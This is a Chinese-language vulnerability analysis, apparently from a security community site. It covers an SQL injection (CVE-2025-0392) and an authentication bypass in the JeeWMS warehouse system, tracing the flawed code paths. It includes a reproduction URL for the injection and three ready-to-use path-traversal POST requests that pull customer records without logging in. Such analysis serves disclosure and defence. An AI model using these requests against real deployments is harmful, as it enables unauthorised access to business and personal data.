# JEEWMS-SQL注入(CVE-2025-0392)和权限绕过(CVE-2024-5775)漏洞分析-先知社区

> **来源**: https://xz.aliyun.com/news/17299  
> **文章ID**: 17299

---

# JEEWMS-graphReportController.do 接口SQL注入漏洞分析（CVE-2025-0392）

## 简介

JeeWMS 是基于Java全栈技术打造的智能仓储中枢系统，具备多形态仓储场景深度适配能力（兼容3PL第三方物流与厂内物流双模式）。系统通过PDA智能终端与WEB管理平台双端协同，构建了涵盖仓储管理(WMS)、订单协同(OMS)、财务结算(BMS)、运输调度(TMS)的全链路数字化解决方案。目前已在冷链物流、快消零售、汽车制造及零部件等领域的龙头企业形成标杆案例群，成功验证了其跨行业、多场景的生态

## 漏洞分析

1、分析来到 org/jeecgframework/web/graphreport/controller/GraphReportController.java:303 当路由graphReportController 必须包含 datagridGraph 参数时，会调用执行 datagridGraph 方法（这个位置要注意，特别是后面我们进行poc的构造）

这个方法看起来好像并没有带入什么可控参数，我们继续向下分析，在org/jeecgframework/web/graphreport/controller/GraphReportController.java:325 我们发现CgReportQueryParamUtil 是一个工具类，用来处理查询参数的加载逻辑，而loadQueryParams() 方法又是用来动态加载并封装所需的查询条件参数



2、打上断点，我们继续跟踪 loadQueryParams(）方法，来到org/jeecgframework/core/online/util/CgReportQueryParamUtil.java:39 路径，从 item 对象中根据键名获取filedName 的值并强制转换成字符串，打断点处能看出我们从用户端传入的参数 store\_code 被传递给了filedName，并在org/jeecgframework/core/online/util/CgReportQueryParamUtil.java:44 将参数值传递给了value字符串，继续向下在 org/jeecgframework/core/online/util/CgReportQueryParamUtil.java:49 直接从用户端获取所有数据，并将数据传递给uri字符串



3、继续向下 org/jeecgframework/core/online/util/CgReportQueryParamUtil.java:60 简单判断刚刚得到的value 参数值是否带有“\*”后，就进入else判断将参数值进行简单拼接后存入到了queryparams中



4、我们继续回到controller层，在org/jeecgframework/web/graphreport/controller/GraphReportController.java:329 将从用户端得到的数据queryparams 传递给graphReportService.queryByCgReportSql(）方法



5、又跟踪 queryByCgReportSql（）方法，来到org/jeecgframework/web/graphreport/service/impl/core/GraphReportServiceImpl.java:70 将参数值params与 sql 语句传给handleElInSQL（）方法得到一个新的 sql 查询语句后，继续将新的sql 传给getFullSql（）方法



6、进入getFullSql（）方法，org/jeecgframework/web/graphreport/service/impl/core/GraphReportServiceImpl.java:145 简单判断参数值是否为空后直接与动态SQL语句进行拼接



7、继续又返回到 queryByCgReportSql（）方法，org/jeecgframework/web/graphreport/service/impl/core/GraphReportServiceImpl.java:74 将得到的新的查询语句传给jdbcDao.findForJdbc(）方法，传到这里终于要去执行语句了



8、继续跟踪 jdbcDao 层的findForJdbc(）方法，在org/jeecgframework/core/common/dao/jdbc/JdbcDao.java:149 直接将store\_code参数值拼接的SQL查询语句中去执行，整个过程并没有对参数进行过滤或转义，因此参数store\_code可控，这里存在SQL注入漏洞



## 漏洞复现

可以自己尝试构造，也可以利用sqlmap复现

```
http://localhost:8083/jeewms/graphReportController.do?datagridGraph&configId=CWSYL&store_code=1
```



# JEEWMS智能仓储中枢系统存在权限绕过漏洞（CVE-2024-57757）

## 摘要

权限绕过和未授权漏洞都是非常适合新手小伙伴们入门或者练手的漏洞类型，只需要关注整个开发框架的过滤器处就能发现端倪。

## 简介

JeeWMS 是基于Java全栈技术打造的智能仓储中枢系统，具备多形态仓储场景深度适配能力（兼容3PL第三方物流与厂内物流双模式）。系统通过PDA智能终端与WEB管理平台双端协同，构建了涵盖仓储管理(WMS)、订单协同(OMS)、财务结算(BMS)、运输调度(TMS)的全链路数字化解决方案。目前已在冷链物流、快消零售、汽车制造及零部件等领域的龙头企业形成标杆案例群，成功验证了其跨行业、多场景的生态

## 漏洞分析

1、当我们在挖掘未授权或者权限绕过漏洞的时候，直接目的性的去找哪里有拦截器或者过滤器，或者搜索interceptor、actuator等类似的拦截器文件，在 org/jeecgframework/core/interceptors/AuthInterceptor.java:85 开发人员标注了这里是一个拦截器，没有这个标注我们通过全局搜索 interceptor 也能找到这个拦截文件，继续向下分析在org/jeecgframework/core/interceptors/AuthInterceptor.java:99 路径我们可以发现，这是一个模糊查询条件，通过判断 requestPath 参数路径是否包含在 excludeContainUrls 数组变量里，如果包含就直接返回ture



2、我们继续跟踪模糊查询方法 moHuContain() ，在org.jeecgframework.core.interceptors.AuthInterceptor#moHuContain 能够发现 moHuContain() 方法，将接收的参数key和list列表参数逐个进行比较，我们打上断点就能发现，list里面包含了wmOmNoticeHController.do在内的三个参数，当key是list列表的某一个参数时，就直接返回，整个过程并没有其他过滤



3、那么我们就能猜想，当我的路由不管是什么，只要包含list列表中的任何一个参数就能绕过登陆直接访问后台喽，下面是正常访问如下路由会302自动跳转到登陆页面，需要进行权限校验



## 漏洞复现

构造可以查看敏感数据的poc，在路由中加上 wmOmNoticeHController.do/../ 之后，无需登录就可直接绕过后端校验访问后台接口，获取敏感数据

```
POST /jeewms/wmOmNoticeHController.do/../mdCusController.do?datagrid&field=id,createName,createBy,createDate,updateName,updateBy,updateDate,sysOrgCode,sysCompanyCode,zhongWenQch,zhuJiMa,keHuJianCheng,keHuBianMa,keHuYingWen,zengYongQi,zengYongQiYe,keHuZhuangTai,xingYeFenLei,keHuDengJi,suoShuXingYe,shouQianRiQi,zhongZhiHeShiJian,shenQingShiJian,keHuShuXing,guiShuZuZh,guiShuSheng,guiShuShiDai,guiShu,diZhi,youZhengBianMa,zhuLianXiRen,dianHua,shouJi,chuanZhen,zhuLianXiRen1,dianHua1,emaildiZhi,wangYeDiZhi,faRenDaiBiao,faRenShenFen,zhuCeZiJin,biBie,yingYeZhiZhao,shuiWuDeng,zuZhiJiGou,daoLuYunShu,zhuYingYeWu,heYiXiang,piZhunJiGuan,piZhunWenHao,zhuCeRiQi,beiZhu, HTTP/1.1
Host: localhost:8083
Content-Type: application/x-www-form-urlencoded; charset=UTF-8

page=1&rows=10
```



## 扩展

同理，其他两个都是一样的道理，一样能绕过登陆权限，来查看到敏感数据和信息

```
POST /jeewms/systemController/showOrDownByurl.do/../../mdCusController.do?datagrid&field=id,createName,createBy,createDate,updateName,updateBy,updateDate,sysOrgCode,sysCompanyCode,zhongWenQch,zhuJiMa,keHuJianCheng,keHuBianMa,keHuYingWen,zengYongQi,zengYongQiYe,keHuZhuangTai,xingYeFenLei,keHuDengJi,suoShuXingYe,shouQianRiQi,zhongZhiHeShiJian,shenQingShiJian,keHuShuXing,guiShuZuZh,guiShuSheng,guiShuShiDai,guiShu,diZhi,youZhengBianMa,zhuLianXiRen,dianHua,shouJi,chuanZhen,zhuLianXiRen1,dianHua1,emaildiZhi,wangYeDiZhi,faRenDaiBiao,faRenShenFen,zhuCeZiJin,biBie,yingYeZhiZhao,shuiWuDeng,zuZhiJiGou,daoLuYunShu,zhuYingYeWu,heYiXiang,piZhunJiGuan,piZhunWenHao,zhuCeRiQi,beiZhu, HTTP/1.1
Host: localhost:8083
Content-Type: application/x-www-form-urlencoded; charset=UTF-8

page=1&rows=10
```



```
POST /jeewms/wmsApiController.do/../mdCusController.do?datagrid&field=id,createName,createBy,createDate,updateName,updateBy,updateDate,sysOrgCode,sysCompanyCode,zhongWenQch,zhuJiMa,keHuJianCheng,keHuBianMa,keHuYingWen,zengYongQi,zengYongQiYe,keHuZhuangTai,xingYeFenLei,keHuDengJi,suoShuXingYe,shouQianRiQi,zhongZhiHeShiJian,shenQingShiJian,keHuShuXing,guiShuZuZh,guiShuSheng,guiShuShiDai,guiShu,diZhi,youZhengBianMa,zhuLianXiRen,dianHua,shouJi,chuanZhen,zhuLianXiRen1,dianHua1,emaildiZhi,wangYeDiZhi,faRenDaiBiao,faRenShenFen,zhuCeZiJin,biBie,yingYeZhiZhao,shuiWuDeng,zuZhiJiGou,daoLuYunShu,zhuYingYeWu,heYiXiang,piZhunJiGuan,piZhunWenHao,zhuCeRiQi,beiZhu, HTTP/1.1
Host: localhost:8083
Content-Type: application/x-www-form-urlencoded; charset=UTF-8

page=1&rows=10
```

